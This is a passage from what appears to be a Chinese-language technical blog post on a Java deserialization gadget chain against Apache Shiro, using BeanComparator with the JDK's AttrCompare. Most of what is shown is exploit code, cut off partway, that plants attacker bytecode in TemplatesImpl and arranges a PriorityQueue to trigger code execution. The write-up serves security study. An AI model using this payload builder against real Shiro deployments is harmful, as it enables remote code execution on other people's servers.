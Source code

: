```java
    }
```

`compare`方法是一个有参方法，所以在调用方法时并不能直接传入两个String类型或者Object类型。

![image-20211108173941363](https://gitee.com/samny/images/raw/master/summersec//49u39er49ec/49u39er49ec.png)

然而Attr是一个接口，不能直接实例化，只能找实现类。这里我使用的是`com\sun\org\apache\xerces\internal\dom\AttrNSImpl.java`类。

![image-20210614104831362](https://gitee.com/samny/images/raw/master/summersec//31u48er31ec/31u48er31ec.png)

```
        AttrCompare attrCompare = new AttrCompare();
        AttrNSImpl attrNS = new AttrNSImpl();
        attrNS.setValues(new CoreDocumentImpl(),"1","1","1");
        attrCompare.compare(attrNS,attrNS);
```

最终利用代码：

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.dom.AttrNSImpl;
import com.sun.org.apache.xerces.internal.dom.CoreDocumentImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;



public class CommonsBeanutilsAttrCompare {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        AttrNSImpl attrNS1 = new AttrNSImpl(new CoreDocumentImpl(),"1","1","1");

        final BeanComparator comparator = new BeanComparator(null, new AttrCompare());
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(attrNS1);
        queue.add(attrNS1);


        setFieldValue(comparator, "property", "outputProperties");
```